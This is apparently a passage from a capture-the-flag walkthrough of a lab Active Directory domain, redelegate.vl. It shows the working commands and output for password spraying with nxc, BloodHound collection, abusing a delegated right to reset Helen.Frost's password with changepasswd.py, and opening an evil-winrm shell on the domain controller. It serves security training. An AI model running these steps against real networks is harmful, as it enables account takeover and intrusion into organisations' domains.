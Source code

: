 ## Establish Foothold

Now, with a list of domain users and our previously created wordlist, we perform a password spray attack against the accounts:

```
nxc smb redelegate.vl -u users.txt -p passwords.txt
...
SMB         10.10.72.39     445    DC               [+] redelegate.vl\Marie.Curie:<redacted>
```

We successfully find valid credentials for `Marie.Curie`. With this, we can do more enumeration such as listing network shares, identifying misconfigurations, and gathering BloodHound data to map potential attack paths. 

Using BloodHound, we collect data for further analysis:

```
nxc ldap redelegate.vl -u Marie.Curie -p '<redacted>' --bloodhound -c all --dns-server 10.10.72.39
LDAP        10.10.72.39     389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:redelegate.vl)
LDAP        10.10.72.39     389    DC               [+] redelegate.vl\Marie.Curie:<redacted>
LDAP        10.10.72.39     389    DC               Resolved collection methods: acl, rdp, objectprops, psremote, group, container, trusts, dcom, localadmin, session
LDAP        10.10.72.39     389    DC               Done in 00M 09S
LDAP        10.10.72.39     389    DC               Compressing output into ...
```

Once we import the BloodHound data, it reveals a privilege escalation path. Specifically, `Marie.Curie` has permissions to reset the password of another user, `Helen.Frost`.

![Bloodhound Path](bloodhound-path.png)

We proceed to reset the password:

```
changepasswd.py redelegate/helen.frost@redelegate.vl -newpass 'Password123!' -altuser redelegate/marie.curie -reset -altpass '<redacted>' -debug

[*] Setting the password of redelegate\helen.frost as redelegate\marie.curie
[*] Connecting to DCE/RPC as redelegate\marie.curie
[+] Successfully bound to SAMR
[+] Sending SAMR call hSamrSetNTInternal1
[*] Password was changed successfully.
[!] User no longer has valid AES keys for Kerberos, until they change their password again.
```

With these credentials, we gain a shell on the Domain Controller.

```
evil-winrm -i redelegate.vl -u helen.frost -p 'Password123!'

*Evil-WinRM* PS C:\Users\Helen.Frost\Documents>
```

## Escalate Privileges
